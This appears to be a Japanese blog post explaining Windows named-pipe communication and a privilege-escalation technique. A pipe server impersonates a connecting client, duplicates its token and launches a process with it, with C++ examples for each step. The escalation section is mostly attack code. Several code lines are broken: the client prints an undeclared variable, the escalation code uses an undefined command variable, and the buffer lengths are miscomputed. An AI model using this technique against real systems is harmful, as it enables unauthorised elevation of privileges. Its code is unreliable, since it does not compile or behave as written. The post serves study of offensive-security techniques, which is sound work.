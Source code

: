 ```yaml
---
title: Namedpipe-Privilege-Escalation
date: 2021-01-27 10:00:00 +09:00
categories: [Windows, Technique, Privilege Escalation]
tags: [Windows, Privilege Escalation]
---
```


PipeはWindowsでプロセス間通信に用いられる技術です。
これはプロセスが異なるネットワーク上にある場合でもプロセス間でデータのやり取るが可能です。
Pipeを作成するプロセスをPipe serverといい、Pipeに接続するプロセスをPipe clientと言います。

Named pipeはPipeを作成時に名前を設定します。
また、これとは逆にAnonymous pipeも存在しますが、今回の範囲ではないため触れません。

# Named pipe
それでは実際にコードを作成して通信をしてみたいと思います。
Pipe名は`mi2-Pipe`で作成してきます。

## Pipe server
まず最初にPipe serverの方から書いていきます。

流れ的には下記のようになります。
```
CreateNamedPipe->ConnectNamedPipe->WriteFile
```

1. [CreateNamedPipe](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createnamedpipea)関数でNamed pipeを作成します。
1. [ConnectNamedPipe](https://docs.microsoft.com/en-us/windows/win32/api/namedpipeapi/nf-namedpipeapi-connectnamedpipe)関数でPipeへの接続を待ちます。
1. [WriteFile](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-writefile)関数でclientへメッセージを送ります。

```cpp
int server() {
  LPCWSTR lpName{ L"\\\\.\\pipe\\mi2-Pipe" };  // Pipe名
  HANDLE hPipe{ 0 };  // Pipeハンドル
  LPCWSTR lpMsg{ L"I Love Asuka Sito" };  // クライアントがコネクションしてきたら送るメッセージ

  hPipe = CreateNamedPipe(
    lpName,  // Pipe名
    PIPE_ACCESS_DUPLEX,  // 双方向通信 
    PIPE_TYPE_MESSAGE,   // 
    1,  // インスタンスの最大数
    1024,  // 出力バッファサイズ
    1024,  // 入力バッファサイズ
    0,  // タイムアウト間隔
    nullptr);  // セキュリティ記述子

  if (ConnectNamedPipe(hPipe, nullptr))  // Pipeハンドル, OVERLAPPED構造体へのポインタ
    WriteFile(hPipe, lpMsg, (wcslen(lpMsg + 1) * 2), nullptr, nullptr);

  if (hPipe)
    CloseHandle(hPipe);
  return 0;
}
```

## Pipe client
次にPipe clientの方を書いていきます。

流れ的には下記のようになります。
```
CreateFile->ReadFile
```

1. [CreateFile](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilea)関数でハンドルを取得します。
1. [ReadFile](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-readfile)関数でserverから送られてくるメッセージを受け取ります。

```cpp
int client() {
  LPCWSTR lpName{ L"\\\\127.0.0.1\\pipe\\mi2-Pipe" };
  HANDLE hPipe{ 0 };
  bool bPipeRead{ true };
	wchar_t lpMsg[1024]{ 0 };

  hPipe = CreateFile(lpName, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);

  while (bPipeRead) {
		bPipeRead = ReadFile(hPipe, &lpMsg, 1024, nullptr, nullptr);
		wcout << "Received message: " << Msg;
	}

  if (hPipe)
    CloseHandle(hPipe);
  return 0;
}
```

# Privilege Escalation
それでは今回の本題とも言える、権限昇格をしていきます。
権限昇格には[ImpersonateNamedPipeClient](https://docs.microsoft.com/en-us/windows/win32/api/namedpipeapi/nf-namedpipeapi-impersonatenamedpipeclient)関数を使用します。
この関数は、PipeのClient側のアクセストークンをServer側が引き継ぐことができる関数です。

流れ的には下記のようになります。
```
ImpersonateNamedPipeClient->OpenThreadToken->DuplicateTokenEx->CreateProcesWithToken
```

1. [ImpersonateNamedPipeClient](https://docs.microsoft.com/ja-jp/windows/win32/api/namedpipeapi/nf-namedpipeapi-impersonatenamedpipeclient)関数でClient側のトークンをServer側が引き継ぎます。
1. [OpenThreadToken](https://docs.microsoft.com/ja-jp/windows/win32/api/processthreadsapi/nf-processthreadsapi-openthreadtoken)関数でCurrentThreadのトークンを取得します。
1. [DuplicateTokenEx](https://docs.microsoft.com/en-us/windows/win32/api/securitybaseapi/nf-securitybaseapi-duplicatetokenex)関数でトークンの複製をします。
1. [CreateProcessWithToken](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithtokenw)関数で複製したトークンでプロセスを作成します。

```cpp
int escalation() {
  LPCWSTR lpName{ L"\\\\.\\pipe\\mi2-Pipe" };
  HANDLE hPipe{ 0 };
  LPCWSTR lpMsg{ L"I Love Asuka Sito" };
  HANDLE hToken{ 0 };
	HANDLE hNewToken{ 0 };

  hPipe = CreateNamedPipe(lpName, PIPE_ACCESS_DUPLEX, PIPE_TYPE_MESSAGE, 1, 1024, 1024, 0, nullptr);

  if (ConnectNamedPipe(hPipe, nullptr))
    WriteFile(hPipe, lpMsg, (wcslen(lpMsg + 1) * 2), nullptr, nullptr);

  ImpersonateNamedPipeClient(hPipe);

	OpenThreadToken(GetCurrentThread(), MAXIMUM_ALLOWED, FALSE, &hToken);
	DuplicateTokenEx(hToken, NULL, nullptr, SecurityImpersonation, TokenPrimary, &hNewToken);
	CreateProcessWithTokenW(hNewToken, 0, nullptr, lpCmd, NULL, nullptr, nullptr, nullptr, nullptr);

  if (hNewToken)
    CloseHandle(hNewToken);
  if (hToken)
    CloseHandle(hToken);
  if (hPipe)
    CloseHandle(hPipe);
  return 0;
}
```

# Reference
[Windows NamedPipes 101 + Privilege Escalation - Red Teaming Experiments](https://www.ired.team/offensive-security/privilege-escalation/windows-namedpipes-privilege-escalation)
[Impersonating a Named Pipe Client - Win32 apps](https://docs.microsoft.com/en-us/windows/win32/ipc/impersonating-a-named-pipe-client)
[Named Pipes - Win32 apps](https://docs.microsoft.com/en-us/windows/win32/ipc/named-pipes)
[名前付きパイプ - Wikipedia](https://ja.wikipedia.org/wiki/%E5%90%8D%E5%89%8D%E4%BB%98%E3%81%8D%E3%83%91%E3%82%A4%E3%83%97)